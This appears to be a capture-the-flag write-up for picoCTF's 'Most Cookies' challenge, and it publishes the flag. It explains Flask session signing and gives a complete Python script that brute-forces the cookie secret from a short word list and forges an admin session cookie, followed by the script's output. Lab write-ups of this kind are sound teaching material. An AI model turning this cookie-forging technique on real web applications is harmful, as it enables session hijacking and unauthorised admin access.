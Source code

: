 # Most Cookies

## Method

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

where we are then provided with a server.py and a website.

our hint is how secure is a flask cookie.

A Flask cookie is a small piece of data stored on the user's browser, which the Flask web framework can use to remember information across different requests. 
For example, Flask can set a cookie to keep a user logged in or remember their preferences as they navigate a website. 
Cookies in Flask are easy to set up with response.set_cookie and can also be securely signed to prevent tampering by using the SECRET_KEY.

Normally flask cookies are very hard to break as they have a secret_key luckily with the server.py they gave us the creation script of these cookies.

This Flask app uses cookies and sessions to implement a simple authentication-like mechanism. It works as follows:

1. **Cookie Names**: A list of valid "cookie names" is defined, and one is chosen as a secret key for signing the session cookies.
2. **Setting Cookies**: The app sets a session cookie (`very_auth`) to track user input, initially set to `"blank"`.
3. **User Input**: Users enter a "cookie name" on `/search`. If the name is valid, it saves to `session["very_auth"]` and redirects to `/display`.
4. **Flag Display**: On `/display`, if `very_auth` matches `"admin"`, a special "flag" is shown. For other valid names, a message is shown but without the flag.

The app uses Flask cookies to store and verify the "cookie name" across pages.

so quite literally we need to make a admin cookie that allows us to authenticate this.

To this we first need to find what secret_key was used by bruteforcing and comparing each option to the current session cookie we have.
The cookie's secret key will be one of the following 

```
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]
```
Luckily we can use The flask_cookie function that can encode or decode flask cookies (That i found online) is defined to handle the encoding and decoding of cookies. 
It takes a secret_key, the cookie_data (which is an arr element of cookie_str), and the operation (either "encode" or "decode").

Using this function we can decode the cookie str I have by comparing it to all possible_keys.
Once we have the secret_key that made the session key we currently have we can generate an admin cookie.

```
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer

# Cookie names list from the server application
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]

# cookie string obtained from the website
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZyPFrQ.49hTipCsK3vGMPd_AyZtVXdfy9w"

# Function to encode/decode Flask cookies
def flask_cookie(secret_key, cookie_data, operation="decode"):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

    try:
        if operation == "decode":
            return s.loads(cookie_data)
        elif operation == "encode":
            return s.dumps(cookie_data)
    except BadTimeSignature:
        return None

# Step 1: Brute force the secret key
def brute_force_secret_key(cookie_str, possible_keys):
    for key in possible_keys:
        decoded = flask_cookie(key, cookie_str, "decode")
        if decoded:
            print(f"Found Secret Key: {key}")
            print(f"Decoded Cookie Data: {decoded}")
            return key
    print("Secret key not found in provided list.")
    return None

# Step 2: Generate an admin cookie
def generate_admin_cookie(secret_key):
    admin_cookie = {"very_auth": "admin"}
    encoded_cookie = flask_cookie(secret_key, admin_cookie, "encode")
    return encoded_cookie

def main():
    print("Brute-forcing the secret key...")
    secret_key = brute_force_secret_key(cookie_str, possible_keys)

    if not secret_key:
        print("Failed to find the correct secret key.")
        return
    
    print("\nGenerating admin-level cookie...")
    admin_cookie = generate_admin_cookie(secret_key)

    if admin_cookie:
        print(f"Admin Cookie: {admin_cookie}")
    else:
        print("Failed to encode the admin cookie.")

if __name__ == "__main__":
    main()

```

My output when running 

```
Brute-forcing the secret key...
Found Secret Key: peanut butter
Decoded Cookie Data: {'very_auth': 'snickerdoodle'}

Generating admin-level cookie...
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyPFuQ.3-eOMHR1Wbjmxy8MhPP34iazGUA
```

Once we have the admin cookie we can then change our current cookie to the admin one and refresh the website to then see the flag :D

## Flag 

> picoCTF{pwn_4ll_th3_cook1E5_478da04c}
